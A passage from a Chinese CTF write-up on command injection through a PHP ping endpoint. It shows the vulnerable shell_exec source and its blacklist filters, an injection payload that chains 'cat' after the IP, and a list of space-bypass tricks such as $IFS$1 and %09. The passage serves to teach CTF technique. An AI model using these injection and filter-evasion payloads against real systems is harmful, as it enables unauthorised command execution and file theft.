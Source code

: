 
再用`cat`命令

```url
/?ip=xxx;cat flag.php
```

喜提`fuck your space`。
好嘛，用能想到的space替换符，%20之类的，毫不意外不行。
wp提供了更多的绕过space：
```txt
${IFS}
$IFS$1
${IFS
<> or < 重定向符替换
%09
```
原博一个个试后告诉大家，`$IFS$1`行得通。

```URL
https://xxx/?ip=127.0.0.1;cat$IFS$1flag.php
```

又告诉你不行——因为flag被过滤了。

#### （3）

试一下index.php，
```php
PING 127.0.0.1 (127.0.0.1): 56 data bytes
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}
?>
```

解释一下就是：

- 1. `PING 127.0.0.1 (127.0.0.1): 56 data bytes`：这是一个命令行输出，表示将对IP地址 127.0.0.1 进行Ping测试。`/?ip=`：这是一个URL参数，用于接收要测试的目标IP地址。

- 2. `|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match))`：这是一个正则表达式，用于检查输入的IP地址是否包含特定的符号（ `'`, `"`, `\`, `(`, `)`, `[`, `]`, `{`, `}`）。然后 `echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);`：这一行判断输入的IP地址是否包含特殊字符，并输出匹配结果。最后`die("fxck your symbol!");`：如果前面的正则表达式匹配到特殊字符，将输出错误信息并终止程序运行。
